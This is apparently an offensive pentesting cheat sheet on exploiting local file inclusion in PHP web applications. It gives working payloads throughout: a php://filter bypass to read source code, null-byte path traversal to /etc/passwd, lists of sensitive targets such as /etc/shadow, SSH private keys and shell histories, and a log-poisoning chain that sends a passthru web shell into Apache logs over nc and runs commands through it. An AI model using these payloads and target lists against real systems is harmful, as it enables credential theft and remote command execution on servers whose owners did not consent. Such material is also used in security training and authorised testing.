 # Local file inclusion

Local file inclusion means unauthorized access to filesystem.

With this we can get a hold of many sensitive files



In most web-services that use a database we can get a hold of the database username and password:


in wordpress the file is **wp-config.php**
And once you have gotten access to that you can do other things. Check out the chapter on mysql.


This is the definitive guide to Local File inclusion
https://highon.coffee/blog/lfi-cheat-sheet/

And this
http://securityidiots.com/Web-Pentest/LFI

And this:

https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/


The vulnerability stems from unsanitized user-input

Here is an example of php-code vulnerable to LFI. As you can see we just pass in the url-parameter into the require-function without any sanitization. So the user can just add the path to any file.
```
# index.php
    <?php
      $file = $_GET['page'];
      require($file);
     ?>
```

## Bypassing execution

So if you an LFI you might have notices that you can read txt-files but not .php files, since they are executed and not read. There is a bypass around that

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```
Here you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:

```
base64 -d savefile.php
```

### Using the nullbyte handeling .php

THe nullbyte techniqu works in versions below php 5.3. So look out for that.

If the include looks like this:

```
# index.php
    <?php
      $file = $_GET['page'];
      require($file . ".php");
     ?>
```

The php i added to the filename, this will mean that we will not be able to find the files we are looking for. Since the file /etc/passwd.php does not exist. However, if we add the nullbyte to the end of our attack-string the **.php** will not be taken into account. So we add **%00** to the end of our attackstring.

## Linux

### Tricks

Check if a folder exists, go into it and the go out.

```
index.php?page=../../../../../../var/www/dossierexistant/../../../../../etc/passwd%00"
```

**Download config-files in a nice style-format**
If you read files straight in the browser the styling can becomes unbearable. Really difficult to read. A way around it is to download the files from the terminal. But that won't work if there is a login that is blocking it. So this is a great workaround:

```
# First we save the cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```


### Sensitive file

This is the default layout of important apache files.
https://wiki.apache.org/httpd/DistrosDefaultLayout


```
/etc/issue (A message or system identification to be printed before the login prompt.)
/etc/motd (Message of the day banner content. Can contain information about the system owners or use of the system.)
/etc/passwd 
/etc/group 
/etc/resolv.conf (might be better than /etc/passwd for triggering IDS sigs)
/etc/shadow
/home/[USERNAME]/.bash_history or .profile
~/.bash_history or .profile
$USER/.bash_history or .profile
/root/.bash_history or .profile
```
Comes from here: https://gist.github.com/sckalath/a8fd4e754a72015aa0b8

/etc/mtab
/etc/inetd.conf
/var/log/dmessage


#### Web server files
```
# Usually found in the root of the website
.htaccess
config.php
```

#### SSH
```
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
```
#### Logs
```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
```

#### General files

First you need to check the passwd file to find the users.
```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
/var/mail/
```

#### User specific files

Found in the home-directory

```
.bash_history
.mysql_history
.my.cnf
```

#### Proc files

"Under Linux, /proc includes a directory for each running process, including kernel processes, in directories named /proc/PID, where PID is the process number. Each directory contains information about one process, including: /proc/PID/cmdline, the command that originally started the process."

https://en.wikipedia.org/wiki/Procfs

https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/
```
/proc/sched_debug # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Bruteforcing SSH known_hosts

https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/


## LFI to shell

Under the right circumstances you might be able to get a shell from a LFI


### Log files
There are some requirements. We need to be able to read the apache2 log files, either the success.log or the error.log

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

1. Insert php-code into the log file.
This can be done with nc or telnet.

```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

You can also add it to the error-log by making a request to a page that doesn't exists

```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```


Or in the referer parameter.
```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

2. Execute it
In the browser:
```
http://192.168.1.102/index.php?/var/log/apache2/access.log&cmd=id
```

### /proc/self/environ

We can also inject code into /proc/self/environ through the user-agent

https://www.exploit-db.com/papers/12992/



https://www.youtube.com/watch?v=ttTVNcPnsJY

## Windows

https://gist.github.com/sckalath/da1a232f362a700ab459